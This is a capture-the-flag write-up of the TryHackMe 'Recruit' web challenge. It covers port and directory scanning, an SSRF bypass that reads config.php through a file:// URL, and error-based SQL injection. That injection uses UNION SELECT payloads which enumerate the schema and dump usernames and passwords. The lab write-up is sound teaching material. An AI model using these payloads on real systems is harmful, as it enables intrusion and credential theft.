









# [Recruit — TryHackMe](https://tryhackme.com/room/recruitwebchallenge)

**Difficulty:** Medium

**Category:** Web exploitation, SSRF, SQL Injection

## Overview

Recruit is a web exploitation challenge focused on identifying and chaining vulnerabilities within a recruitment web application.

The main attack chain involved:

- Server-Side Request Forgery (SSRF)
- Local File Retrieval through the SSRF functionality
- Error-based SQL Injection
- Credential extraction
- Authentication as an administrator

The goal was to obtain the flags and gain administrative access to the application.

Funny enough, the initial access of this challenge took more time than actually getting the admin flag.

---

## 1. Reconnaissance

### Port Scan

I started by inspecting the machine with nmap, scanning all ports to identify all the available services on the machine.

```bash
nmap -sV -sC -sS -p- -T5 -oN port_scan.txt <target>
```

<details>
<summary>Full output (also in <code>evidence/command_outputs/port_scan.txt</code>)</summary>

```
# Nmap 7.94SVN scan initiated Mon Aug 24 13:38:39 2026 as: nmap -sV -sC -p- -T5 -oN portscan.txt 10.113.163.32

Warning: 10.113.163.32 giving up on port because retransmission cap hit (2).

Nmap scan report for 10.113.163.32
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:6b:b6:3e:15:9a:00:ee:e7:20:e3:c0:27:cd:9e:4f (RSA)
|   256 b4:eb:59:db:50:a2:6b:75:de:88:41:4d:94:c7:14:10 (ECDSA)
|_  256 73:bf:b1:f6:7f:8c:a3:26:35:a5:26:1d:d5:40:b3:ff (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Recruit
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Mon Aug 24 13:45:18 2026 -- 1 IP address (1 host up) scanned in 398.76s
```

</details>

Three services found:

- SSH on port 22
- DNS on port 53
- HTTP on port 80

Nothing actionable on SSH or DNS, so I focused on the web server. One thing the scan flagged that's worth noting: the session cookie `PHPSESSID` does not have the `httponly` flag set — meaning there could be an XSS vector present, though I didn't end up needing it for the intended path.

### Web Enumeration

Directory brute-force against the web root:

```bash
gobuster dir -u http://<target> -w SecLists/Discovery/Web-Content/common.txt -x php,js,txt,html
```

<details>
<summary>Full output (also in <code>evidence/command_outputs/initial_dir_enum.txt</code>)</summary>

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.113.163.32
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                SecLists/Discovery/Web-Content/common.txt
[+] Extensions:              php,js,txt,html
===============================================================

/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/api.php              (Status: 200) [Size: 4151]
/assets               (Status: 200) [Size: 2657]
/config.php           (Status: 200) [Size: 0]
/dashboard.php        (Status: 200) [Size: 1417]
/file.php             (Status: 200) [Size: 20]
/footer.php           (Status: 200) [Size: 289]
/header.php           (Status: 200) [Size: 457]
/index.php            (Status: 200) [Size: 1417]
/javascript           (Status: 403) [Size: 278]
/logout.php           (Status: 200) [Size: 1417]
/mail                 (Status: 200) [Size: 935]
/phpmyadmin           (Status: 200) [Size: 14773]
/server-status        (Status: 403) [Size: 278]
/sitemap.xml          (Status: 200) [Size: 1710]

===============================================================
Finished
===============================================================
```

</details>

Several interesting findings stood out immediately:

- `/api.php` — API documentation
- `/file.php` — the CV retrieval endpoint
- `/config.php` — returns a 200 but with size 0 (suspicious)
- `/mail` — a mail directory
- `/sitemap.xml` — always worth checking

#### sitemap.xml

The sitemap didn't reveal anything beyond what gobuster already found, but it served as a good confirmation of the discovered paths.



#### /mail — The Key Finding

More interesting was `/mail`, which listed the contents of the server's mail directory, including a log file named `mail.log`.



The log file handed us a username for the HR user, and mentioned that the password is stored in `config.php`.

This immediately created a problem: visiting `config.php` returns nothing (size 0). The file isn't empty though — it almost certainly contains PHP code that the web server executes before serving the response, stripping the credentials from the visible output entirely. Since the mail message explicitly confirms the password is in `config.php`, retrieving its raw source became the next objective.

#### API Documentation

The application exposed API documentation at `/api.php`, describing an internal CV retrieval endpoint.



The documentation introduced `/file.php` as the CV retrieval endpoint, accepting a URL via the `?cv` parameter:



The API stated that HTTP and HTTPS URLs were supported:



This pointed directly at a potential SSRF vector — if the endpoint fetches arbitrary URLs server-side, it might be possible to point it at `config.php` and retrieve the raw source before PHP executes it.

---

## 2. SSRF — Local File Retrieval

The `/file.php` endpoint accepts a URL through the `cv` parameter and retrieves the specified resource.

My initial approach was to try making the server fetch `config.php` via SSRF — first by pointing it at itself:

```
?cv=config.php
?cv=http://127.0.0.1/config.php
?cv=http://127.1/config.php
?cv=http://127.0.1/config.php
?cv=http://localhost/config.php
```

All of these — including hexadecimal/octal representations of 127.0.0.1, and HTTPS variants — returned the same message:

```
Only local files are allowed
```

I also started a listener and attempted to make the server connect out to an external host, which also hit the same block. The filter was consistent across every HTTP/HTTPS variation I tried.

Eventually, I shifted focus to the `file://` URI scheme — a different approach entirely. The filter was clearly checking for HTTP/HTTPS patterns, but `file://` is a completely different protocol class:

```
?cv=file://config.php
```

This returned `access denied` rather than the usual restriction message — a **different** response, which confirmed the filter doesn't reject `file://` the same way, and that the path argument matters. Using the default web root path:

```
?cv=file:///var/www/html/config.php
```

The application returned the raw contents of `config.php` — including the credentials that PHP would normally execute and hide from the browser output.



With the username from the mail log and the password from `config.php`, I logged in and retrieved the user flag.

---

## 3. SQL Injection — Data Exfiltration

After logging in, the application's main functionality was a candidate search bar. I tested it for injection immediately by entering a single quote (`'`):



The application returned a raw SQL error — confirming error-based SQL injection with unsanitized input going directly into the query.

**Column count enumeration:**

```sql
' UNION SELECT 1,2,3,4;#
```

Four columns matched the original query.

**Current database:**

Substituting the 4th column with `database()`:

```sql
' UNION SELECT 1,2,3,database();#
```

Returned: `recruit_db`

**Table enumeration:**

```sql
' UNION SELECT 1,2,3,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'recruit_db'#
```

Returned: `candidates`, `users` — the `users` table is the target.

**Column enumeration:**

```sql
' UNION SELECT 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'#
```

Returned:

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,MAX_SESSION_CONTROLLED_MEMORY,
MAX_SESSION_TOTAL_MEMORY,id,username,password
```

**Credential extraction:**

```sql
' UNION SELECT 1,2,3,group_concat(username,':', password SEPARATOR '<br>') FROM users#
```



Administrator credentials successfully extracted.

---

## 4. Administrator Access

Logged out and logged back in with the administrator credentials.



This granted access to the administrative functionality of the recruitment platform. The admin flag was retrieved from the authenticated admin interface.

---

## 5. Attack Chain

```
Web Enumeration
      ↓
/mail → mail.log → HR username + hint about config.php
      ↓
/api.php → CV retrieval endpoint documented (/file.php?cv=<URL>)
      ↓
SSRF via file:///var/www/html/config.php
      ↓
config.php → HR/admin credentials
      ↓
Application Login → User Flag
      ↓
Search bar → Error-based SQL Injection
      ↓
Database enumeration (recruit_db → users table)
      ↓
Credential extraction
      ↓
Administrator Login → Admin Flag
```

---

## 6. Takeaways

This challenge reinforced a few things that are easy to overlook during web enumeration.

The first was the importance of paying attention to application documentation. The API documentation explicitly described functionality that was worth investigating, even though the implementation imposed additional restrictions.

The second was the importance of understanding URL schemes. The file:// scheme initially looked unrelated to the HTTP-based application, but understanding how URI schemes work eventually led to a working request.

Finally, the SQL injection vulnerability demonstrated how a seemingly simple input field can provide access to the application's database when user input is not properly handled.

---

## Flags

Flags obtained during the challenge have been redacted from this write-up.

> TryHackMe flags and sensitive challenge credentials are intentionally omitted.